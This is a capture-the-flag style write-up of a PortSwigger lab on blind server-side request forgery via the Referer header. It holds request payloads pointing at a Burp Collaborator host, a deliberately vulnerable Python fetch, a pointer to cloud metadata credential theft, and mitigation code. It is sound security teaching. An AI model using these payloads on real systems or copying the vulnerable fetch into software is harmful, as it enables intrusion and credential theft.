

# Lab 03: Blind SSRF with Out-of-Band Detection

> **Topic**: SSRF Vulnerabilities
> **Lab Number**: 03
> **Platform**: PortSwigger Web Security Academy

## Category
SSRF — Blind Out-of-Band Detection via Referer Header

## Vulnerability Summary
The application's analytics software reads the `Referer` header on every product page request and makes a server-side HTTP request to the URL it contains — silently, in the background, with no response returned to the client. Because the destination is never validated, an attacker can supply an arbitrary external URL as the `Referer` value and cause the server to issue an outbound DNS lookup and HTTP request to an attacker-controlled host. Unlike classic SSRF, the response is never reflected back, making this a **blind** SSRF — detectable only through out-of-band interaction logging (Burp Collaborator).

## Attack Methodology

### Step 1: Recon
Opened a product page and intercepted the GET request in Burp Proxy. Sent it to Repeater:

```
GET /product?productId=3 HTTP/2
Host: 0a970024033f80e6936fcb0a00850068.web-security-academy.net
Cookie: session=RVf4J3zJpdsOWLI12FY4olyekmKH1Hgx
Referer: https://0a970024033f80e6936fcb0a00850068.web-security-academy.net/
```

The `Referer` header is the attack surface — the analytics component fetches this URL server-side on every product page load.

### Step 2: Generate a Collaborator Payload
In Burp Repeater, right-clicked the `Referer` header value → **Insert Collaborator Payload**. Burp replaced the original domain with a unique Collaborator subdomain:

```
Referer: https://vbdcqm3ok8mpsvhrrrmd2aye95fw3qrf.oastify.com5cijrt4vlfnwt2lysynk3hzlacg34ysn.oastify.com
```

### Step 3: Send the Request
Clicked **Send** in Repeater. The server returned HTTP 200 (the normal product page) — no indication in the response that anything happened. This is the defining characteristic of blind SSRF: the out-of-band channel is the only signal.



### Step 4: Poll Collaborator
Switched to the **Collaborator** tab, waited ~10 seconds, then clicked **Poll now**. Incoming DNS and HTTP interactions appeared — initiated by the application server as a result of the analytics component fetching the Referer URL.

Lab marked as **Solved**.

## Technical Root Cause

```python
# Vulnerable analytics middleware — fetches Referer header server-side
def log_analytics(request):
    referer = request.META.get('HTTP_REFERER', '')
    if referer:
        requests.get(referer, timeout=5)  # blind fetch — response discarded
```

The analytics component makes an outbound HTTP request to whatever URL is in the `Referer` header, discards the response, and returns nothing to the client. Because the response is never reflected, standard SSRF detection (looking for internal content in the response) doesn't work here. The only way to confirm the vulnerability is through out-of-band interaction — a DNS lookup or HTTP request hitting an attacker-controlled server.

### Why This Is Blind

| Property | Classic SSRF (Labs 01–02) | Blind SSRF (This Lab) |
|---|---|---|
| Response reflected to attacker | Yes | No |
| Detection method | Response body / status code | Out-of-band callback |
| Internal data exfiltration | Direct | Requires chaining |
| Confirmation mechanism | Read the response | Collaborator / DNS log |

## Impact
- **Confirmed Outbound SSRF Primitive**: The server will fetch any URL placed in the `Referer` header, including internal RFC-1918 addresses, cloud metadata endpoints (`http://169.254.169.254`), and internal management APIs
- **Internal Network Probing**: Even without a reflected response, timing differences and out-of-band callbacks can be used to map live internal hosts and open ports
- **Chaining to Higher-Impact Attacks**: Blind SSRF can be escalated by targeting endpoints that perform state-changing actions on GET requests (e.g., internal admin APIs, webhook triggers, cache-poisoning endpoints)
- **No Authentication Required**: The `Referer` header is attacker-controlled on any HTTP request — no session or privilege needed to inject the payload

## Proof of Concept

```
GET /product?productId=3 HTTP/2
Host: 0a970024033f80e6936fcb0a00850068.web-security-academy.net
Cookie: session=RVf4J3zJpdsOWLI12FY4olyekmKH1Hgx
Referer: https://<collaborator-payload>.oastify.com
```

Expected result: DNS and HTTP interactions logged in Burp Collaborator within ~10 seconds of sending the request.

## Key Takeaways
1. **Blind SSRF Is Confirmed Through Out-of-Band Channels**: When the response isn't reflected, Burp Collaborator (or any OOB interaction server) is the only reliable detection method. A DNS lookup alone is sufficient proof — it confirms the server resolved the attacker-supplied hostname.
2. **The Referer Header Is an Overlooked Attack Surface**: Most SSRF testing focuses on explicit URL parameters like `stockApi` or `url`. Analytics pipelines, logging middleware, and link-preview features that silently fetch the `Referer` are frequently missed in code review and automated scanning.
3. **Blind ≠ Low Impact**: The absence of a reflected response doesn't limit the damage. If the server can be made to fetch `http://169.254.169.254/latest/meta-data/` or an internal admin endpoint, the attacker can chain blind SSRF into credential theft or privilege escalation — even without seeing the response directly.
4. **Asynchronous Execution Requires Patience**: The analytics fetch happens in a background job after the HTTP response is sent. Polling Collaborator immediately after sending the request may show nothing — wait 5–10 seconds before polling.
5. **Lab 03 vs Labs 01–02**: Labs 01 and 02 used a reflected SSRF where the server's response was returned directly. Lab 03 introduces the blind variant — the more common real-world form, since most internal fetches (analytics, webhooks, link previews) discard their responses.

## Mitigation

### 1. Do Not Fetch Attacker-Controlled Headers Server-Side
```python
# Fix — don't fetch the Referer header at all for analytics
# Log it as a string value only; never make an outbound HTTP request to it
def log_analytics(request):
    referer = request.META.get('HTTP_REFERER', '')
    AnalyticsLog.objects.create(referer=referer)  # store, don't fetch
```

### 2. If Fetching Is Required, Enforce a Strict Allowlist
```python
from urllib.parse import urlparse

ALLOWED_ANALYTICS_HOSTS = {'yourdomain.com', 'www.yourdomain.com'}

def log_analytics(request):
    referer = request.META.get('HTTP_REFERER', '')
    parsed = urlparse(referer)
    if parsed.hostname not in ALLOWED_ANALYTICS_HOSTS:
        return  # silently drop — do not fetch
    requests.get(referer, timeout=5)
```

### 3. Block Outbound Requests to Internal Addresses
```python
import ipaddress, socket

def is_internal(hostname):
    try:
        ip = ipaddress.ip_address(socket.gethostbyname(hostname))
        return ip.is_loopback or ip.is_private
    except Exception:
        return True  # fail closed

if is_internal(parsed.hostname):
    return  # block internal destinations
```

### 4. Restrict Egress at the Network Level
Enforce outbound firewall rules on the application server so it can only reach explicitly permitted external hosts. This limits the blast radius of any SSRF primitive — blind or otherwise.

## References
- [PortSwigger — Blind SSRF with Out-of-Band Detection](https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection)
- [PortSwigger — Blind SSRF Vulnerabilities](https://portswigger.net/web-security/ssrf/blind)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, Collaborator)
- Chromium

---

*Lab completed on: 2026-04-29*  
*Writeup by vibhxr*
